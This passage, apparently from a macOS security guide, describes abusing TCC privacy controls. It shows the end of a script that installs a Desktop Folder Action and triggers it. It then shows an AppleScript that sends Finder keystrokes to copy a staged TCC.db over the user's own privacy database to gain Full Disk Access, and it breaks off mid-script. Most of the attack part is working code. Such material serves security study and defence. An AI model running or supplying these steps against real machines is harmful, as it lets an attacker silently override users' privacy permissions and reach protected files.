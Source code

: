 ```bash

    -- Create or get the Folder Action for the Desktop
    if not (exists folder action folderPath) then
        make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
    end if
    set myFolderAction to folder action folderPath

    -- Attach the script to the Folder Action
    if not (exists script scriptPath of myFolderAction) then
        make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
    end if

    -- Enable the Folder Action and the script
    enable myFolderAction
end tell
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
```

### Automation (SE) + Accessibility (**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`**)** to FDA\*

Automation on **`System Events`** + Accessibility (**`kTCCServicePostEvent`**) allows to send **keystrokes to processes**. This way you could abuse Finder to change the users TCC.db or to give FDA to an arbitrary app (although password might be prompted for this).

Finder overwriting users TCC.db example:

```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
    -- Open Finder
    tell application "Finder" to activate

    -- Open the /tmp directory
    keystroke "g" using {command down, shift down}
    delay 1
    keystroke "/tmp"
    delay 1
    keystroke return
    delay 1

    -- Select and copy the file
    keystroke "TCC.db"
    delay 1
    keystroke "c" using {command down}
    delay 1

    -- Resolve $HOME environment variable
    set homePath to system attribute "HOME"

    -- Navigate to the Desktop directory under $HOME
    keystroke "g" using {command down, shift down}
    delay 1
    keystroke homePath & "/Library/Application Support/com.apple.TCC"
    delay 1
    keystroke return
    delay 1
```
